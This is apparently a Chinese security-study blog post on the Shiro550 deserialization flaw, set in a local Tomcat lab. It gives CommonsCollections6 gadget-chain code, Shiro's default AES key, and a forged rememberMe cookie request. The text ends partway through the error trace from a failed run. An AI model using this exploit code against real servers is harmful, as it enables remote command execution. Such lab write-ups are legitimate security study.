








+++
title= "Shiro550反序列化"
slug= "shiro550-deserialization"
description= "shiro550中CC6&&CB1&&无CC依赖的CB1"
date= "2025-09-06T17:07:54+08:00"
lastmod= "2025-09-06T17:07:54+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

## shiro550

前面学习加载字节码之后学习了几条CC链，发现通过`TemplatesImpl`构造的利用链，理论上可以执行任意Java代码，这是一种非常通用的手法，不受到对于链的限制，特别是构造内存吗，执行任意Java代码的需求就更加浓烈了。那这个手法有多潮呢？我们就以之前拿shell拿到爽现在也能捡漏的shiro550为例子，更加深入学习。

Shiro反序列化的原理比较简单：为了让浏览器或服务器重启后用户不丢失登录状态，Shiro支持将持久化信息序列化并加密后保存在Cookie的`rememberMe`字段中，下次读取时进行解密再反序列化。但是在Shiro1.2.4版本之前内置了一个默认且固定的加密 Key，导致攻击者可以伪造任意的rememberMe Cookie，进而触发反序列化漏洞。

用P牛写的demo来做测试，但是换一下源  https://github.com/phith0n/JavaThings/blob/master/shirodemo

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
  <modelVersion>4.0.0</modelVersion>

  <groupId>com.govuln</groupId>
  <artifactId>shirodemo</artifactId>
  <version>1.0-SNAPSHOT</version>
  <packaging>war</packaging>

  <name>shirodemo Maven Webapp</name>
  <url>http://www.example.com</url>

  <properties>
    <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    <maven.compiler.source>1.7</maven.compiler.source>
    <maven.compiler.target>1.7</maven.compiler.target>
  </properties>

  <!-- 显式添加中央仓库配置 -->
  <repositories>
    <repository>
      <id>central</id>
      <name>Central Repository</name>
      <url>https://repo.maven.apache.org/maven2</url>
      <releases>
        <enabled>true</enabled>
      </releases>
      <snapshots>
        <enabled>false</enabled>
      </snapshots>
    </repository>
  </repositories>

  <dependencies>
    <dependency>
      <groupId>org.apache.shiro</groupId>
      <artifactId>shiro-core</artifactId>
      <version>1.2.4</version>
    </dependency>
    <dependency>
      <groupId>org.apache.shiro</groupId>
      <artifactId>shiro-web</artifactId>
      <version>1.2.4</version>
    </dependency>

    <dependency>
      <groupId>javax.servlet</groupId>
      <artifactId>javax.servlet-api</artifactId>
      <version>3.1.0</version>
      <scope>provided</scope>
    </dependency>

    <dependency>
      <groupId>javax.servlet.jsp</groupId>
      <artifactId>jsp-api</artifactId>
      <version>2.2</version>
      <scope>provided</scope>
    </dependency>

    <dependency>
      <groupId>commons-collections</groupId>
      <artifactId>commons-collections</artifactId>
      <version>3.2.1</version>
    </dependency>
    <dependency>
      <groupId>commons-logging</groupId>
      <artifactId>commons-logging</artifactId>
      <version>1.2</version>
    </dependency>
    <dependency>
      <groupId>org.slf4j</groupId>
      <artifactId>slf4j-api</artifactId>
      <version>1.7.30</version>
    </dependency>
    <dependency>
      <groupId>org.slf4j</groupId>
      <artifactId>slf4j-simple</artifactId>
      <version>1.7.30</version>
    </dependency>
  </dependencies>

  <build>
    <finalName>shirodemo</finalName>
    <pluginManagement>
      <plugins>
        <plugin>
          <artifactId>maven-clean-plugin</artifactId>
          <version>3.1.0</version>
        </plugin>
        <plugin>
          <artifactId>maven-resources-plugin</artifactId>
          <version>3.0.2</version>
        </plugin>
        <plugin>
          <artifactId>maven-compiler-plugin</artifactId>
          <version>3.8.0</version>
        </plugin>
        <plugin>
          <artifactId>maven-surefire-plugin</artifactId>
          <version>2.22.1</version>
        </plugin>
        <plugin>
          <artifactId>maven-war-plugin</artifactId>
          <version>3.2.2</version>
        </plugin>
        <plugin>
          <artifactId>maven-install-plugin</artifactId>
          <version>2.5.2</version>
        </plugin>
        <plugin>
          <artifactId>maven-deploy-plugin</artifactId>
          <version>2.8.2</version>
        </plugin>
      </plugins>
    </pluginManagement>
  </build>
</project>
```

拉一下依赖

```bash
mvn clean install -U

mvn dependency:resolve
```

使用`mvn clean package`将项目打包成war包，放在Tomcat的webapps目录下。然后访问 `http://localhost:8080/shirodemo/`，会跳转到登录页面

由于没装过这玩意，也写一下安装的过程

```bash
sudo wget https://archive.apache.org/dist/tomcat/tomcat-9/v9.0.85/bin/apache-tomcat-9.0.85.tar.gz

tar -xzf apache-tomcat-*.tar.gz

sudo cp target/shirodemo.war /opt/apache-tomcat-9.0.85/webapps/

chmod +x /opt/apache-tomcat-9.0.85/bin/*.sh

# 启动（前台运行，方便看日志）
/opt/apache-tomcat-9.0.85/bin/catalina.sh run

# 后台启动
/opt/apache-tomcat-9.0.85/bin/startup.sh

# 停止
/opt/apache-tomcat-9.0.85/bin/shutdown.sh
```


登陆一下，`root\secret`，成功登录：



看到给了一个cookie

对此，我们攻击过程如下：

1. 使用以前学过的CommonsCollections利用链生成一个序列化Payload
2. 使用Shiro默认Key进行加密
3. 将密文作为`rememberMe`的Cookie发送给服务端

我将第1、2步编写成了一个Class：Client0.java，其中用到的Gadget是`CommonsCollections6`，对此
不熟悉的同学可以参考系列之前的文章。

```java
package Base.Unserialize.shiro;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections6{
    public byte[] getPayload(String command) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {
                new ConstantTransformer(1)
        };

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[] { String.class, Class[].class },
                        new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke",
                        new Class[] { Object.class, Object[].class },
                        new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class },
                        new Object[]{new String[]{command}}),
                new ConstantTransformer(1)
        };

        Transformer chainedTransformer = new ChainedTransformer(fakeTransformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, chainedTransformer);

        TiedMapEntry tme = new TiedMapEntry(outerMap, "test2");
        Map expMap = new HashMap();
        expMap.put(tme, "test3");
        outerMap.remove("test2");

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chainedTransformer, transformers);


        byte[] data =serialize(expMap);
        return data;
    }
    public static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }
}

```

```java
package Base.Unserialize.shiro;

import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

public class Client0 {
    public static void main(String []args) throws Exception {
        byte[] payloads = new CommonsCollections6().getPayload("open -a Calculator");
        AesCipherService aes = new AesCipherService();
        byte[] key = java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");

        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());
    }
}
```

生成的payload替换到`rememberMe`发过去

```http
GET /shirodemo/login.jsp HTTP/1.1
Host: 127.0.0.1:8080
Referer: http://127.0.0.1:8080/shirodemo/login.jsp
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
sec-ch-ua-platform: "macOS"
Sec-Fetch-Dest: document
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
sec-ch-ua-mobile: ?0
Cookie: rememberMe=QONPBiEynlb6K1RlcKCswvx6v7TcmzU1wHl7eKdyk7pEbV+Uy6emSzTPxjivlstplhKUstJIXywvTOQog/7OFLkxc6A4re1+/DZqlDtdkEVuS0vZdOCAupU+fv0TSLGFrT65nkr3r4CUM9lj+eFj00DKTXTLfZ6b0Hr6KqacnuzsSu3Ny2CzhINL6X7A3+s6F0un8DQ6iBA6EQtCQkBef6GUFYwv/99/mblh0LWC0ngbC9rNDiVdsh1xHNAD88e/hJIEarvPCRNw4AcH2oy4wabSavebcVBxwlzzY5kDj+PtZjHAcUgWEIKOcp1CaYIPK+Og/LAioNUYoHHabXTSsw8FXfCOM7uBF9k/MxRv3r1gpK7gTdDYx4JZG5VFcoyi/kSqz5qZp+3YPdUwkZnyeoS73R04VCJN/yhpoUtMp2E7iK3hQ+LlZCD4tjaSMpPHku2LL6AQScz1gBFxKlEZ15S5yxRNwReNOFSzrBqvsYITFmdhAuuHcSmGwVVCnfEg8GeDqGIvPRVlTlb6q1pAv8xCivIi+X8+wZwY5f9+eihSt6eftCSiGG8kGIG0kFc00WAr0GtIfTzFNJQUIT1vyiBWU+GIUxh9UqcG84oaNbHh46vJih4VNoIKpwxSGhl2ifE/oKOlE4lArts+OIetw3fVlxu79Bfr6Sc/DD0qVVoJHsgViHnlylXIQrFeMecXL2QnAbqYscgFA0Z5RII+R5FXTMguw6k5bPtwrRk4S+6/dSedNCAtJEIm8KuHt7uJIZ8GJaI7nVpIBnkp/MGDLxdSS5TC+QjPSLDQLGkTMlCGXMEyaaO6wlpqbYSxVDVvKx1sFbxoAyTU2Zttie+b24djbizuUqQ9BxasK4BQKmOvEVj3eQ48Kp13hWJ22+6gdNZur7osjMLQn2QxGUljIdB+ua4qivXrKBsJGSsrKf1aJ3fhsymb6JrndCsrs6Xju7ouXbkLQXJxtc7+27P7BOIBpJHuBWobH2i2NZtgvzOL0oRaxMiVAv6v2hHNwsZOC/XQc71QD52T0+IMcNYYeR0ymydDfOyNtCjLuKkHbmTVYH5Ypt9FyR6e7EZGFj9AqQT/obvYPSriIzZEPqEQk8M5tyiyCEovdq9uC+4CQ1S+Txbhaq3o8wlrqkC2Bg4xKx5rGarmN+AnDtMcnPZtuXZSHBppUGoedX+Ua75sM00j8lhIlUelAQd/HDz8wTkGZlw2or4P7SZAiOcmXQsBicSPmeey92jPBsvrGQWsZeK4W2EFfiyb20ro1XsG03u0SIVNLE1vWosR5jtXl8cBWOhnz8QBRtlGCa+cePq7Fl+nUKTXLswqCuPwteCpRB/Z+0ynqxnHqcUawUVizlYkOqWLB7j8fs2KGR5+aNUag0D1/H1EH1XuMuKWktgQqInyihTQ6vmtvhIZhgoQ0J2S1lyOQFNVwr9OLEp7dn/qSHX9d31ATGxRqOFySUWmZmK4h4joYgOqxJwxkP1y384AdSLgfxyIYyguAZoRJkmuTYh9r+vsC2O0q9cGeNPK4qJTdmDIijKSiqF+/EdtJ2f7IrdjAB0LmfMuP18S+0zIK3p9rhdZz5bz87vgnT9dumftcO0W9DPHMhq3T/cVKdzgC5jNrmgUB/Vchin9x3EKH7l7ZGmxnJfQTN1vKVlcDNu0S+2Cna8Wm9bV6qbxyDptz/xHzJSalIEo1GEoe3A1EG3PkkX0m4pJvZx8dojA7PxKfy/qfko9GOUVhBMttzEf7Q==;
Sec-Fetch-Site: same-origin
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua: "Chromium";v="140", "Not=A?Brand";v="24", "Google Chrome";v="140"
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-User: ?1
Sec-Fetch-Mode: navigate
```

没有成功弹出计算器，并且启动端报错如下

```bash
[http-nio-8080-exec-3] WARN org.apache.shiro.mgt.DefaultSecurityManager - Delegate RememberMeManager instance of type [org.apache.shiro.web.mgt.CookieRememberMeManager] threw an exception during getRememberedPrincipals().
org.apache.shiro.io.SerializationException: Unable to deserialze argument byte array.
	at org.apache.shiro.io.DefaultSerializer.deserialize(DefaultSerializer.java:82)
	at org.apache.shiro.mgt.AbstractRememberMeManager.deserialize(AbstractRememberMeManager.java:514)
	at org.apache.shiro.mgt.AbstractRememberMeManager.convertBytesToPrincipals(AbstractRememberMeManager.java:431)
	at org.apache.shiro.mgt.AbstractRememberMeManager.getRememberedPrincipals(AbstractRememberMeManager.java:396)
	at org.apache.shiro.mgt.DefaultSecurityManager.getRememberedIdentity(DefaultSecurityManager.java:604)
	at org.apache.shiro.mgt.DefaultSecurityManager.resolvePrincipals(DefaultSecurityManager.java:492)
	at org.apache.shiro.mgt.DefaultSecurityManager.createSubject(DefaultSecurityManager.java:342)
	at org.apache.shiro.subject.Subject$Builder.buildSubject(Subject.java:846)
	at org.apache.shiro.web.subject.WebSubject$Builder.buildWebSubject(WebSubject.java:148)
	at org.apache.shiro.web.servlet.AbstractShiroFilter.createSubject(AbstractShiroFilter.java:292)
	at org.apache.shiro.web.servlet.AbstractShiroFilter.doFilterInternal(AbstractShiroFilter.java:359)
	at org.apache.shiro.web.servlet.OncePerRequestFilter.doFilter(OncePerRequestFilter.java:125)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:178)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:153)
	at org.apache.catalina.core.StandardWrapperValve.invoke(StandardWrapperValve.java:168)
	at org.apache.catalina.core.StandardContextValve.invoke(StandardContextValve.java:90)
	at org.apache.catalina.authenticator.AuthenticatorBase.invoke(AuthenticatorBase.java:481)
	at org.apache.catalina.core.StandardHostValve.invoke(StandardHostValve.java:130)
	at org.apache.catalina.valves.ErrorReportValve.invoke(ErrorReportValve.java:93)
	at org.apache.catalina.valves.AbstractAccessLogValve.invoke(AbstractAccessLogValve.java:670)
	at org.apache.catalina.core.StandardEngineValve.invoke(StandardEngineValve.java:74)
	at org.apache.catalina.connector.CoyoteAdapter.service(CoyoteAdapter.java:342)
	at org.apache.coyote.http11.Http11Processor.service(Http11Processor.java:390)
		at org.apache.coyote.AbstractProcessorLight.process(AbstractProcessorLight.java:63)
	at org.apache.coyote.AbstractProtocol$ConnectionHandler.process(AbstractProtocol.java:928)
	at org.apache.tomcat.util.net.NioEndpoint$SocketProcessor.doRun(NioEndpoint.java:1794)
	at org.apache.tomcat.util.net.SocketProcessorBase.run(SocketProcessorBase.java:52)
	at org.apache.tomcat.util.threads.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1191)
	at org.apache.tomcat.util.threads.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:659)
	at org.apache.tomcat.util.threads.TaskThread$WrappingRunnable.run(TaskThread.java:61)
	at java.lang.Thread.run(Thread.java:748)
Caused by: java.lang.ClassNotFoundException: Unable to load ObjectStreamClass [[Lorg.apache.commons.collections.Transformer;: static final long serialVersionUID = -4803604734341277543L;]: 
	at org.apache.shiro.io.ClassResolvingObjectInputStream.resolveClass(ClassResolvingObjectInputStream.java:55)
	at java.io.ObjectInputStream.readNonProxyDesc(ObjectInputStream.java:1868)
	at java.io.ObjectInputStream.readClassDesc(ObjectInputStream.java:1751)
	at java.io.ObjectInputStream.readArray(ObjectInputStream.java:1930)
	at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1567)
	at java.io.ObjectInputStream.defaultReadFields(ObjectInputStream.java:2287)
	at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2211)
	at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
	at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
	at java.io.ObjectInputStream.defaultReadFields(ObjectInputStream.java:2287)
	at java.io.ObjectInputStream.defaultReadObject(ObjectInputStream.java:561)
	at org.apache.commons.collections.map.LazyMap.readObject(LazyMap.java:150)
	at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
	at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
	at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.lang.reflect.Method.invoke(Method.java:498)
	at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
	at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2178)
	at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
	at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
	at java.io.ObjectInputStream.defaultReadFields(ObjectInputStream.java:2287)
	at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2211)
	at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
	at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
	at java.io.ObjectInputStream.readObject(ObjectInputStream.java:431)
	at java.util.HashMap.readObject(HashMap.java:1410)
